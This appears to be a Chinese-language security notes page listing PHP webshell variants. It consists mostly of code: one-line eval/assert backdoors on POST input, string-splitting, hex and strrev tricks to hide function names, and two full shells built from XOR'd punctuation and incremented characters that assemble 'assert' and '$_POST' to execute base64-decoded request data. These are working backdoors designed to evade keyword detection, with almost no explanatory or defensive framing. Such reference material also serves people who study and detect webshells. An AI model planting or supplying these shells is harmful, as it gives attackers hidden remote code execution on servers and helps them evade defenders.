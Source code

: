 WebShell
================================

常见变形
--------------------------------
- GLOBALS
    - ``eval($GLOBALS['_POST']['op']);``
- ``$_FILE``
    - ``eval($_FILE['name']);``
- 拆分
    - ``assert(${"_PO"."ST"} ['sz']);``
- 动态函数执行
    - ``$k="ass"."ert"; $k(${"_PO"."ST"} ['sz']);``
- create_function
    - ``$function = create_function('$code',strrev('lave').'('.strrev('TEG_$').'["code"]);');$function();``
- preg_replace
- rot13
- base64
- 进制转化
    - ``"\x62\x61\163\x65\x36\x34\137\144\145\x63\x6f\144\145"``
- 利用文件名
    - ``__FILE__``

特殊字符Shell
--------------------------------
PHP的字符串可以在进行异或、自增运算的时候，会直接进行运算，故可以使用特殊字符来构成Shell。

::

    @$_++;
    $__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
    @${$__}[!$_](${$__}[$_]);


::

    $_=[];
    $_=@"$_"; // $_='Array';
    $_=$_['!'=='@']; // $_=$_[0];
    $___=$_; // A
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
    $___.=$__; // S
    $___.=$__; // S
    $__=$_;
    $__++;$__++;$__++;$__++; // E 
    $___.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
    $___.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
    $___.=$__;
    $____='_';
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
    $____.=$__;

    $_=$$____;
    $___(base64_decode($_[_]));
